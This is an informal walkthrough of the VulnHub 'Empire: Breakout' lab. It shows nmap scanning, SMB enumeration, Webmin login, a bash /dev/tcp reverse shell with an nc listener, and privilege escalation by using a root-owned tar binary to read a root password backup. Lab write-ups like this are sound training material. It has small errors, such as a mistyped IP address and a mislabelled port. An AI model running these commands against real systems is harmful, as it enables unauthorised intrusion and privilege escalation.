 
# Introduction

Hi Folks, in this documentation, i will share with you about this lab (empire-breakout). Empire-breakout is lab privoded by VulnHub. if you wanna try this lab, you can visit the original site in VulnHub.

# Settings Up

After that, import the .vdi file of empire-breakout to the virtual box. Do not forget to change the network of machine to bridge. So the machine also can connect to my kali linux machine in virtual box.

# Discover and Identify weaknesses

Then run the machine and first thing that i see after starting the machine is the IP Address and login to the machine. In this case, My machine has 192.168.1.15 IP Address and username, password login.

And how i can login if i don't know the username and password ? So, After that, I'll try to scanning all ports of machine which ports are open in the machine using nmap tools.

Then, I started to open my linux terminal and type this commands: 

```
nmap -p- -A -T4 192/168.15

-p- : scanning all ports
-A  : enable OS detection, version detection, script scanning, and traceroute
-T4 : Set timing template (higher is faster)

```

Results

```
PORT        STATE   SERVICE     VERSION
80/tcp      open    http        Apache httpd 2.4.51
139/tcp     open    netbios-ssn Samba smbd 4.6.2
443/tcp     open    netbios-ssn Samba smbd 4.6.2
10000/tcp   open    http        MiniServ 1.981 (Webmin httpd)
20000/tcp   open    http        MiniServ 1.830 (Webmin httpd)

and other information about the machine

```

In this case, we know that the 192.168.1.15 IP address can be opened from browser. Try to open it in the browser and view the source code and i get brainfuck-language and try to decrypt it. 

And then try to search in google, if port 139/tcp, 443/tcp, 10000/tcp, 20000/tcp can be exploited.

# SMB Enumeration

After looking for exploit, i got good articles that ports 139/tcp, 443/tcp can be exploit. https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb

First thing i do after read the articles is obtain all information of smb machine using this command and got unique information which user to login to Webmin or Usermin

```
enum4linux 192.168.1.15

S-1-22-1-1000 Unix User\cyber (Local User)                         
```

After we got all information about machine such as username and password, Try to login to 192.168.1.15:10000 or 192.168.1.20000. After login to the page, try to find terminal and see what inside. Yeah, in this case i got two files as cyber user, the files are tar and user.txt. 
Open user.txt file and get 
```
3mp!r3{You_Manage_To_Break_To_My_Secure_Access}
```

But, in this case i still login as cyber user from pages or browser 192.168.1.15:20000. Then, how to login to the real machine or server ? 

As i know, from the page we have Mail and Usermin tab.
Try to find command shell from the tabs and do reverse shell. To reverse shell, we need to know the commands, and i try to use the commands from PayloadAllTheThings.
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

```
bash -i >& /dev/tcp/listen_ip/any_port 0>&1
bash -i >& /dev/tcp/192.168.1.18/1337 0>&1 (in this case)
```

Before running the above command, i need to listen first in my main linux machine or kali linux machine with below command and then run the above command

```
nc -nlvp 1337
```

After that, you will get reverse shell and try to find unique information from the server. So, i try to open /var folders and there is backups folder. When i open it, there is .old_pass.bak file which interesting file but i cannot open it.

So I try to move to directory home server again and list all files and there is tar file that link to root.

When i try to execute tar, so it the real command but the owner of tar is root. SO, i think i can try to tar the .old_pass.bak file and try to extracta again with this command. 

```
./tar -cf backup.tar /var/backups/.old_pass.bak (archieve the file)

./tar -xf backup.tar (extract var directory)

```

As you can see, i can archieve the .old_pass.bak file and try to extract once more using tar binary executables file. And try to open it as usual using cd and cat commands. 

```
cd var/backups (backups directory)
cat .old_pass.bak (root password)
```

After got the root password, I try to login to root using below commands

```
su root
Password: ***********
```

yeah, Now i am the root. I try to looking for unique information from the root and get rOOT.txt file. This file shows me that i have been successfull to break the system as root.. mwehehehe

Thank you for watching and my bad english. I will keep update these sentences so that becomes correct sentences.

감사합니다

